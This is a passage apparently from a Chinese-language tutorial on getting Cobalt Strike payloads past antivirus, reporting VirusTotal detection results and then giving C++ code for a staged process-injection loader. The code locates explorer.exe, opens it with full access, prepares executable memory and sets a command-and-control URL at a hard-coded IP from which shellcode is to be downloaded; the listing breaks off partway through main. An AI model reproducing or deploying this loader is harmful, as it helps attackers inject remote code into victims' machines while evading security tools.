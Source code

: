 现在我们可以在上传到 VT 之前非常快速地进行测试：成功！我们的注射器再次工作。上传到 VT，我们得到以下结果：

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFvnqrTvssiclVAxjjJuHr1P8cxexVtjGz8QT95vd9tgic5tGENGSJcXGPA/640?wx_fmt=png)https://www.virustotal.com/gui/file/dea855ce961772987be7eea1127fa49c6e85ca2bfbc1b43885b359a05496787e/details

这一次，我们注意到 “CobaltStrike” 明显减少，C2 签名更通用。

进程注入 - 分阶段
----------

我们将使用与之前完全相同的方法，只是这一次，向其中添加一个暂存组件。我们将使用 C++ 中的 urlmon 库进行 HTTP 调用以从 Web 服务器检索阶段 2（我们的 shellcode）。需要注意的是，当将 C2 URL 作为字符串嵌入时，`strings`在二进制文件上运行将显示您的 C2 URL。您可以采取各种技术来绕过它，但是，在这篇文章中，我们将严格专注于规避反病毒软件。我们在本节中使用了一个额外的 Windows API

*   URLOpenBlockingStreamA - 从 HTTP/HTTPS 流中检索文件
    

```
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

HANDLE GetProcesHandleName() {
    HANDLE ProcessHandle;

    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 461;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();
    const char* c2URL = "http://35.170.245.62/index.asm";
    IStream* stream;
    char buff[461];
    unsigned long bytesRead;
```